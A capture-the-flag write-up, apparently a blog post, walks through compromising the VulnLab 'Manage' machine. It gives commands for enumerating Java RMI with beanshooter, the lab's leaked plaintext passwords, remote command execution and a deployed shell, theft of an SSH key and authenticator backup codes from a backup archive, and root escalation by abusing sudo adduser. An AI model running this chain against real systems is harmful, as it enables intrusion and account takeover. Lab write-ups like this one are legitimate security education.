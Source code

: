 ```yaml
---
title: VulnLab -- Manage Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [enumeration]
image:
    path: ../images/Manage-banner.png
---
```

# Manage

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Manage** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/manage-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,2222,8080,42247,42897 --min-rate=1000 10.10.123.154
```

![image.png](../images/manage.png)

now let’s try to get information about the Java RMI using beanshooter 

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar enum 10.10.123.154 2222
```

![image.png](../images/manage%201.png)

now let’s search for any credentials

![image.png](../images/manage%202.png)

as we see we got credentials for the user manager and admin

```bash
username: admin
password: onyRPCkaG4iX72BrRtKgbszd
username: manager
password: fhErvo2r9wuTEYiYgt
```

Now let’s try to gain code execution

First start tcpdump on your machine

```bash
sudo tcpdump -i tun0 icmp
```

![image.png](../images/manage%203.png)

now let’s go and try to ping myself from the victim machine

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.123.154 2222 exec 'ping -c 3 10.8.5.233'
```

![image.png](../images/manage%204.png)

Now let’s go back to our machine

![image.png](../images/manage%205.png)

and we got code execution!

Now let’s gain a shell 

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.123.154 2222 tonka
```

![image.png](../images/manage%206.png)

now let’s go and get a shell.

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka shell 10.10.123.154 2222
```

![image.png](../images/manage%207.png)

now let’s navigate to the useradmin directory

```bash
cd /home/useradmin
```

![image.png](../images/manage%208.png)

> Notice that we found a backup directory so let’s navigate to it
> 

```bash
cd backups
```

![image.png](../images/manage%209.png)

now let’s download the file in our local machine and see the content

```bash
tar -xvzf backup.tar.gz
```

![image.png](../images/manage%2010.png)

> Notice that we got the id_ed25519 file which is the user admin private key
> 

Let’s login via SSH as the user “useradmin”

```bash
ssh -i .ssh/id_ed25519 useradmin@10.10.123.154
```

![image.png](../images/manage%2011.png)

As we see it asks for the password but as we see when we extracted the backup file we found a google authenticator file so let’s see it’s content

```bash
cat .google_authenticator
```

![image.png](../images/manage%2012.png)

as we see we got the backup code so let’s enter one of them in the SSH login

![image.png](../images/manage%2013.png)

finally we are logged it! 🥳

Now let’s go and see our privileges 

```bash
sudo -l
```

![image.png](../images/manage%2014.png)

> As we see we can execute the binary adduser as root without password
> 

First let’s google the default sudoers file

![image.png](../images/manage%2015.png)

Notice that the admin user by default the admin user will have root access

Now let’s add a new admin user

```bash
sudo /usr/sbin/adduser admin
```

![image.png](../images/manage%2016.png)

now let’s switch to the admin user

```bash
su admin
```

![image.png](../images/manage%2017.png)

Now let’s go and check the user privilege

```bash
sudo -l
```

![image.png](../images/manage%2018.png)

as we see we have all access to root so let’s go and switch to root

```bash
sudo su
```

![image.png](../images/manage%2019.png)

and we got root access so let’s go to the root directory and see the flag

```bash
cd /root;ls -las
```

![image.png](../images/manage%2020.png)

Amazing i got the root flag! 🥳

![image.png](../images/manage%2021.png)

That’s it for the **Manage** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX